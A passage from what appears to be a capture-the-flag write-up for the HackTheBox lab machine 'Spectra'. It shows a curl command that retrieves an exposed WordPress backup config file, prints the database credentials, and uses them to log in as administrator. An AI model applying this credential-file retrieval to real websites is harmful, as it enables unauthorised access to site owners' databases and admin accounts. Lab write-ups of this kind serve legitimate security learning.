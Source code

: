 The interesting thing is if we don't follow the link to `index.php`, but rather just list the root with `/`, we can see that directory listing is enabled and it reveals another worpress installation.

[![listing.png](/img/spectra/listing.png)](/img/spectra/listing.png)

There is also a `wp-config.php.save` which we can download using `curl` or `wget`. The `wp-config.php` file usually stores the database credentials for a wordpress installation so it is often a good target.

```php
$ curl http://spectra.htb/testing/wp-config.php.save
...[snip]...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */                                                                         
define( 'DB_NAME', 'dev' );
                                                           
/** MySQL database username */                                                                                        
define( 'DB_USER', 'devtest' );
                                                           
/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );            

/** MySQL hostname */                           
define( 'DB_HOST', 'localhost' );
                                                           
/** Database Charset to use in creating database tables. */ 
define( 'DB_CHARSET', 'utf8' );
                                                           
/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );    
...[snip]...
```

## Worpress template

Using the password for the database and the earlier identified username we are now able to log into wordpress as the administrator user.

